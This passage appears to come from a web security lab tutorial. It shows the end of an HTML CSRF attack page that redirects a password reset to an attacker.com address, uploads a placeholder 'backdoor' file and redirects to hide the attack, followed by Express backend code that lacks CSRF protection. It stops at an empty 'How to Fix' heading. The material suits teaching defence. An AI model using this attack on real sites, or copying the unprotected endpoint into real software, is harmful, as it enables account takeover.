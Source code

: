 ```html
            
            // Step 2: Request password reset (goes to new email)
            await fetch('http://localhost:3000/wcorp/api/reset-password', {
                method: 'POST',
                credentials: 'include',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({ email: 'hacked@attacker.com' })
            });
            
            // Step 3: Upload backdoor
            const file = new File(['backdoor code'], 'backdoor.html');
            const formData = new FormData();
            formData.append('file', file);
            
            await fetch('http://localhost:3000/wcorp/api/upload', {
                method: 'POST',
                credentials: 'include',
                body: formData
            });
            
            // Redirect to hide attack
            window.location = 'http://localhost:3000/wcorp';
        }
        
        csrfAttack();
    </script>
</body>
</html>
```

### 💡 What Makes This Vulnerable?

**Vulnerable Backend Code:**
```javascript
// No CSRF protection!
app.post('/api/user/update', authenticateToken, async (req, res) => {
  const { email } = req.body;
  const userId = req.user.userId;
  
  // Accepts any request with valid auth token
  // No check for CSRF token or same-origin
  await db.execute(
    'UPDATE users SET email = ? WHERE id = ?',
    [email, userId]
  );
  
  res.json({ success: true });
});
```

### 🛡️ How to Fix
